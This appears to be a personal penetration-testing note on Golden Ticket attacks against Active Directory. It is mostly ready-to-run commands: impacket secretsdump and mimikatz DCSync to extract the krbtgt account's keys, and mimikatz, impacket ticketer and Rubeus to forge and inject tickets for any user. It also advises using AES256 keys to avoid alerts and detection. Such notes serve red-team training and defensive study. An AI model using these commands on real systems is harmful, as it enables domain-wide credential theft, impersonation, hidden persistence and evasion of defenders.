 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#impacket #mimikatz 
- TGTs are encrypted with the `krbtgt`'s key derived from it's password.
- `krbtgt` account password is not rotated automatically. Microsoft's best practice is to rotate every 6 months, which is more than enough time to maintain persistence.
- Password history for `krbtgt` account is maintained by the DC.
- If we get hold of this key, we can forge TGTs for any user subsequently getting access to any service as any user. These tickets are called Golden Tickets.
- This can be done using dumping credential of the domain controller or via [DC Sync](DC%20Sync.md) attack.
- This can also be done by dumping the NTDS.dit file locally.
- Using impacket's secretsdump.py:
```bash
secretsdump.py 'mydomain.local/drdragon@192.168.2.2' -just-dc-user krbtgt
```
### Mimikatz
```powershell
kerberos::golden 
	/User:Administrator # user for which the TGT is generated
	/domain:<domain-FQDN>
	/sid:<domain-sid>
	/aes256:<aes256-kerberos-key>
	/id:<id> # Optional user RID. User ID should match the RID of the username specified above
	/groups:<group> # optional group ids
	/startoffset:0 # ticket availibity starts now. a negetive number means the ticket was available from past.
	/endin:600 # optional ticket lifetime (defautl is 10 years). Default AD settings for lifetime is 10 hours (600 minutes)
	/renewmax:10080 # Optional ticket lifeitme in minutes. Default AD setting is 7 days = 100800 minutes
	[/ptt(injects TGT in memory)|/ticket(saves ticket to file)]
```
### Impacket
```bash
ticketer.py -domain-sid <domainSID> -domain mydomain.local -aes <aesKey> Administrator
# This will create the TGT for the Administrator user and save it in Administrator.ccache
```
### Rubeus
```powershell
# Creates command for golden ticket by fetching information from DC using ldap
Rubeus.exe
	golden
	/aes256:<key> # AES256 key of the krbtgt account
	/ldap # make ldap query to fetch all information
	/user:Administrator # User for which golden ticket is creates
	/ptt # injects the ticket in memory
	[/printcmd] # prints the command for creating golden ticket manually using details fetched using ldap
```

---
- AES256 keys should be used to avoid any alerts or detection.
- AES keys for `krbtgt` account can also be obtained by performing [DC Sync](DC%20Sync.md)
```powershell
# mimikatz
lsadump::dcsync /user:dcorp\krbtgt
```